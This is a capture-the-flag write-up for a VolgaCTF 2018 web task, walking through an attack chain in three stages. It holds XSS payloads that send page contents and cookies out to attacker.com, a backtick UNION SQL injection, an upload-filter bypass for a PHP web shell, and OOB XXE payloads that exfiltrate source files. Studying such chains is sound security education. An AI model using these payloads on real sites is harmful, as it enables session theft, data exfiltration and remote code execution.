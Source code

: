 # Shop quest
Category: Web Points: 500 Solves: 0 Description:

For this task, teams could get 500 points, it consisted of several stages that led to the execution of the code. 
Unfortunately, because of the heavy workload, the task sometimes worked slowly, but it was still possible to solve it. 
Nobody received the flag, although some teams went through 2 stages out of three and almost reached the goal. 
I hope that to solve it in any case was interesting and glad that many attempted to get the flag.

## Stage 1 - Client side
Firstly, we can see a main page. In the browser console, we can see the name of the Vue.js framework used to chat with the operator.
Secondly, in source code we can see injection point, there is the customer name, which is specified at registration.

![XSS in name parameter](screenshots/xss_stage.png "XSS in name")

This XXS will work on the operator page. 
Final attack vector for stealing Operator info:
```
${toString.constructor('var http=new XMLHttpRequest();http.open("POST","http://attacker.com/?bot", true);http.setRequestHeader("Content-type","application/x-www-form-urlencoded");http.send("res="+btoa(unescape(encodeURIComponent(document.body.innerHTML))));')()}
```
On *attacker.com* we can see the page where the operator is located reading our message.
Decode this page and find operator's password:

*Change your default password: Floise_default_@@@f*

But, you can ask: "Where can I find the login? Login "Operator" doesn't work!"
Ok) We can see non http only cookie - *userId*. This is IDOR. We can steal operator's cookie and make request to the server with it.

```${toString.constructor('document.location = "http://attacker.com/?"+document.cookie')()}```

![IDOR in userId](screenshots/IDOR.png "IDOR exploitation")

Login as Operator:

login: Mark_323212

Password: Floise_default_@@@f

## Stage 2 - SQL Injection

![Operator's page](screenshots/Operators_page.png "Operator's page")

Here we can see operator's page. The operator has three additional methods:

+ GET /Chat/getMessages?chatId=1
+ GET /Operator/chat?chatId=1
+ POST /Chat/sendToClient

After a few minutes of fuzzing we can see that the first one may response with 500 status code.
Unfortunately, automatic scanners will not give anything here. We need professional pentester's skills!

+ /Chat/getMessages?chatId=1'--+-
+ /Chat/getMessages?chatId=1"--+-
+ /Chat/getMessages?chatId=1`--+-

WoW! The third one retrieve status code 200! So, there is injection in chat table name.

```
SELECT * FROM `chat_<chatId>`
```

This is UNION based injection and we can see output. 
After a difficult dumping of the database structure, we find out the login and password hash of the admin.

Query:
```
http://shop-quest.quals.2018.volgactf.ru/Chat/getMessages?chatId=1`+union+select+login,hash,role,4+from+users+where+role=3--+-
```

Answer:
```
{"status":"ok","messages":[{"id":"1","text":"Hi. man","is_operator":0,"time":"11:02 PM"},{"id":"2","text":"May the Force be with you","is_operator":1,"time":"11:02 PM"},{"id":"3","text":"sdfsdf","is_operator":1,"time":"11:06 PM"},{"id":"Bibant","text":"3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c","is_operator":3,"time":"4"}]}
```

*Bibant / 3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c*

Hash is sha256. The first thing that comes to mind is the online brute password. It's success.

Login as Admin:

login: Bibant

Password: insaneclownposse

## Stage 3 - RCE

This stage is final and allows uploading php shell. There is simple extension filter in uploads, words *php* and *htm* are replaced by empty string.

We have simple bypass like: *shell.pphphp*

When we upload a file, we obtain the generated random name for it. 

![Shell ulpoad](screenshots/upload_shell.png "Shell ulpoad")

But where is our shell? Let's read source code of site. We have the ability to save product info in XML format. Maybe XXE? YES!

However, even if the file is valid, the error is returned, that the functionality does not work yet.

*{"status":"error","message":"Table `goods` doesn't exist"}*

Let's try OOB XXE, and read index.php. Maybe it exists on the server. Send this payload:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker.com/oob.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

oob.xml
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?%data;'>">
```

We received index.php and than we have to read several files to find the file download code:
```
require_once 'utils/Core.php';
```

*utils/Core.php*
```
foreach ( glob( $_SERVER['DOCUMENT_ROOT'] . '/controllers/*Controller.php' ) as $filename ) {
```

*controllers/AdminController.php*
```
require_once 'utils/Uploader.php';
```

Finally, file is uploaded to:
```
/uploads_FjsyFkf/md5(user_login . asdasHF$&@(F&@)AF)JFN)/
```

user_login = Bibant, and we can finally find the flag:

*Find flag:*
```
http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find / -name flag*
```

*Read flag:*
```
http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat /home/flag*
```

Flag is: VolgaCTF{30ff764e5e70f8df3d3f6944c12d0f1a}

P.S. If you have read to the end, you are already a hero)




